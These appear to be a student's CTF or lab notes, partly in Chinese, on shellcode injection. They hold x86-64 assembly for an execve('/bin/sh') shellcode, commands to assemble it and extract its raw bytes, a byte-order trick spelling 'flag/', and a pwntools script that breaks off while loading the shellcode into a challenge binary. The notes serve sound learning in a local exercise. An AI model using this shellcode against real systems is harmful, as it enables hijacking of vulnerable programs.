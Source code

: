 # shellcode 注入：
Write your shellcode as assembly:
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 59		# this is the syscall number of execve
lea rdi, [rip+binsh]	# points the first argument of execve at the /bin/sh string below
mov rsi, 0		# this makes the second argument, argv, NULL
mov rdx, 0		# this makes the third argument, envp, NULL
syscall			# this triggers the system call
binsh:				# a label marking where the /bin/sh string is
.string "/bin/sh"
```

Then, assemble it!
注解：
nonstdlib作用：不要标准库 static：不要动态链接
gcc -nostdlib -static shellcode.s -o shellcode-elf
This is an ELF with your shellcode as its .text. You still need to extract it:
objcopy --dump-section .text=shellcode-raw shellcode-elf
The resulting shellcode-raw file contains the raw bytes of your shellcode.
This is what you would inject as part of your exploits.
直接调试
```
gcc -nostdlib -static shellcode.s -o shellcode-elf
	./shellcode-elf
```
也可以使用strace查看系统调用
https://docs.google.com/presentation/d/1kkfh-dhgxfIZPB1ziyW2JQiC1MbQWn8c7e24kOoDxJ4/edit?pli=1&slide=id.g9605bf3899_1_129#slide=id.g9605bf3899_1_129



# 寄存器内部当大端：
```
mov ebx,0x67616c66
shl rbx,8
mov bl,0x2f

```
最后是67....2f

# 未知bug:
p.sendline(shellcode)
会输入0a.(回车一并输入)
经过测试，是由于输送间隔太短的原因。
```py

from pwn import * 
import os
context.terminal = ["tmux","splitw","-h"] 
files = os.listdir("/challenge/")
file =filter(lambda x:not x.endswith((".c",".md")),files)
gdb_script = '''

'''
if __name__ == "__main__":
    url =  "/challenge/" + next(file)
    # 0x00005c56e905b345 
    p = process(url)
    with open("./shellcode-raw","rb") as f:
```